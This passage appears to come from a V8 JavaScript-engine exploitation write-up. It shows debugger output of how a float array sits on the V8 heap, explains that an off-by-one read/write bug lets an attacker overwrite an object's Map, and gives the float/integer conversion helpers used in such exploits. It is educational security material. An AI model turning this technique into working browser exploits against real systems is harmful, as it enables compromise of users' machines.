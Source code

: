 ```asm
gef➤  x/5xg 0x0e81080c5e25 - 1
0xe81080c5e24:	0x0000000608040a3d	0x3ff199999999999a
0xe81080c5e34:	0x400199999999999a	0x400a666666666666
0xe81080c5e44:	0x080406e908281909
gef➤  p/d 0x3ff199999999999a
$2 = 4607632778762754458
gef➤  p/f 0x3ff199999999999a
$3 = 1.1000000000000001
gef➤  p/f 0x400199999999999a
$4 = 2.2000000000000002
```

Now, since we know how an array is represented into the V8 heap and we also know that we have Off by One read and write vulnerability, which draw us to the conclusion of the we have the ability to overwrite the Map of an object. With this in mind, let's move on:-

***

First off, we need to make the utility functions such that we can deal with the pointer tagging and change the floating values to decimal and vice versa. The following JavaScript function will let us do the work mentioned:-


```js
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val, size) {

    f64_buf[0] = val;

    if(size == 32) {
        return BigInt(u64_buf[0]);
    } else if(size == 64) {
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
    }

}

function itof(val, size) {

    if(size == 32) {
        u64_buf[0] = Number(val & 0xffffffffn);
    } else if(size == 64) {
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
    }

    return f64_buf[0];

}
```
The above functions are used to convert the float to integer and integer to floats, since the memory address are going to be overwritten by their respected values as float, we need those.
